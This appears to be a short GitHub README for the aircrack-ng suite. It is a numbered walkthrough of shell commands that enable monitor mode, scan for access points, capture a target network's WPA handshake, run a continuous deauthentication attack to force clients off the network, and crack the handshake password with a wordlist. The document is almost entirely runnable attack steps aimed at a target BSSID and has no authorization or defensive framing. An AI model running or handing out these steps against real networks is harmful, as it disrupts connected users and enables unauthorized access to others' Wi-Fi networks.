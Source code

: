 # Aircrack suite

## TIP: All commands must be run with sudo

### Usage:

#### 1) Assuming that the Wi-Fi interface is wlan0) (Check with iwconfig if the interface went to monitor mode

    airmon-ng start wlan0 

#### 2) Scans for Access Points' SSIDs and BSSIDs or simply a 48-bit MAC around us

    airodump-ng wlan0mon 

#### 3) NUM represents the channel the target is tuned in. Tune in your target, then wait to capture the handshake, then save it as a .cap file

    airodump-ng wlan0mon -c NUM --bssid TARGET_BSSID -w pwd 
    
#### 4) Perform a deauthentication attack against the target

    aireplay-ng --deauth 0 -a TARGET_BSSID wlan0mon 
    
#### 5) Crack the Wi-Fi password

    aircrack-ng HANDSHAKE_FILE.cap -w WORDLIST.txt 
